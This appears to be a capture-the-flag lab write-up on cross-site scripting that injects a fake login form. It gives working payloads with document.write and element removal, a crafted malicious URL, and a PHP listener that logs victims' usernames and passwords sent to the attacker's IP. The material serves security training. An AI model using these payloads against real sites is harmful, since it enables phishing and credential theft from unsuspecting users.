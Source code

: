 # Phishing

### Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

In many online forums and web applications, there are opportunities to manipulate how a page displays content through a technique known as Cross-Site Scripting (XSS). XSS is a security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. When we attempt to use a basic XSS payload, we might find that it doesn’t execute as expected, often resulting in an error icon that indicates a broken image link. This is a common issue when the application has security measures in place to prevent such injections.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-30-03 (3).png" alt=""><figcaption></figcaption></figure>

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.
   * {% code overflow="wrap" %}
     ```html
     <html lang="en">
     <body style="background-color: #141d2b; font-family: sans-serif; color: white;">
         <!-- --SNIP-- -->
         <img src='test'>
     </body>
     </html>
     ```
     {% endcode %}

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```markup
<script>alert(1);</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use alternative tags or attributes;
   * Incorporate Special Characters:&#x20;

```html
'><script>alert(1);</script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-32-28 (2).png" alt=""><figcaption></figcaption></figure>

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```html
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 5: Setting Up the Listener

1. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

{% code overflow="wrap" %}
```html
http://YOUR_SERVER_IP/phishing/index.php?url='><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.32><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()</script>;<!--

```
{% endcode %}

2. **Send the URL**:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-24-24 (2).png" alt=""><figcaption></figcaption></figure>

2. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-12 (2).png" alt=""><figcaption></figcaption></figure>

### Step 7: Test the captured the credentials

1. Go to http://SERVER\_IP/phishing/login.php and enter the captured credentials to retrieve the flag:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-47 (1).png" alt=""><figcaption></figcaption></figure>











